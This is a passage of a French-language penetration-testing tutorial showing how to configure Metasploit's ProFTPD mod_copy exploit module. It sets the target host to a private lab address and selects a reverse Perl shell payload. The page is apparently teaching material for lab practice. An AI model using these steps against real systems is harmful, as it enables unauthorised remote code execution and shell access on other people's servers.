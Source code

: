 Les _options_ d’un module sont les paramètres qui doivent être définis avant de le lancer. Ces paramètres font partie des informations affichées par `show info`, mais on peut également les voir avec la commande `show options` :

```zsh
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > show options

Module options (exploit/unix/ftp/proftpd_modcopy_exec):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file 
   RPORT   21               yes       The target port (TCP)
```

Avant d’exécuter le module, il faut que les options obligatoires (« required ») aient une valeur; on définit cette valeur avec la commande `set`. Ici **RHOSTS** (l’adresse de la cible) est manquante. Pour la spécifier on entre la commande suivante:
```zsh
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set rhosts 192.168.229.132
```
Ici, le module choisi n’a pas de « payload » par défaut.  La commande `show payloads` permet de voir lesquels sont compatibles :

msf6 exploit(unix/ftp/proftpd_modcopy_exec) > show payloads
```zsh
Compatible Payloads
===================

#  Name                                             Rank    Check  Description
-  ----                                             ----    -----  -----------
0  payload/cmd/unix/bind_awk                        normal  No     Unix Command Shell,              
1  payload/cmd/unix/bind_perl                       normal  No     Unix Command Shell,    
2  payload/cmd/unix/bind_perl_ipv6                  normal  No     Unix Command Shell,    
3  payload/cmd/unix/generic                         normal  No     Unix Command,    
4  payload/cmd/unix/reverse_awk                     normal  No     Unix Command Shell,    
5  payload/cmd/unix/reverse_perl                    normal  No     Unix Command Shell,    
6  payload/cmd/unix/reverse_perl_ssl                normal  No     Unix Command Shell,    
7  payload/cmd/unix/reverse_python                  normal  No     Unix Command Shell,    
8  payload/cmd/unix/reverse_python_ssl              normal  No     Unix Command Shell, 
```
On choisira le shell inversé _perl_, comme suit :
```zsh
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set payload 5
payload => cmd/unix/reverse_perl
```
{{% notice warning "Payloads" %}}
Le _payload_ désigne la charge utile, le programme que l'exploitation nous permet d'exécuter. Par exemple lorsqu'on exploite une vulnérabilité de type _exécution de code_, une fois l'exploitation réalisée ce qu'on souhaite c'est exécuter un programme sur la cible. Cela peut être une commande du système distant ou encore un script conçu par nous-mêmes. Si on choisit la deuxième option, c'est ce script qui sera la _payload_.
{{% /notice %}}

